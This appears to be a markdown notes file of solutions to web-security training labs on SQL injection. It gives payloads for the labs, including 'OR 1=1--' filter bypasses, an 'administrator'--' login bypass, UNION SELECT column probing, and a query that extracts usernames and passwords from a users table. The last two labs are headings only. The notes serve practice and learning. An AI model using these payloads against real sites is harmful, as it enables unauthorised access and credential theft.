 # Labs

## SQL injection

1. [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
2. [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
3. [SQL injection UNION attack, determining the number of columns returned by the query](#sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
4. [SQL injection UNION attack, finding a column containing text](#sql-injection-union-attack-finding-a-column-containing-text)
5. [SQL injection UNION attack, retrieving data from other tables](#sql-injection-union-attack-retrieving-data-from-other-tables)
6. [SQL injection UNION attack, retrieving multiple values in a single column](#sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)
7. [SQL injection attack, querying the database type and version on Oracle](#sql-injection-attack-querying-the-database-type-and-version-on-oracle)

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```text
URL - /filter?category=Gifts

Required - SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Query - Gifts' OR 1=1--
```

### SQL injection vulnerability allowing login bypass

```text
Navigate to my account

In login page,
username - administrator'--

Commenting out the query after username
```

### SQL injection UNION attack, determining the number of columns returned by the query

```text
Select any category filter

Start by query - Pets' UNION SELECT NULL--

Keep appending NULL until no error

Required query - Pets' UNION SELECT NULL,NULL,NULL--
```

### SQL injection UNION attack, finding a column containing text

```text
Under category filter,

first we have to find number of columns

required query - Gifts' UNION SELECT NULL,NULL,NULL--

Now, we need to find which column contains text

Start replacing each NULL by a string

required query - Gifts' UNION SELECT NULL,'a',NULL--

replace 'a' with string to be outputted
```

### SQL injection UNION attack, retrieving data from other tables

```text
Under category filter,

We need to find username, password from users table

Required query - Gifts' UNION SELECT username,password FROM users--

This gives us administrator's password, then we just need to login
```

### SQL injection UNION attack, retrieving multiple values in a single column

### SQL injection attack, querying the database type and version on Oracle
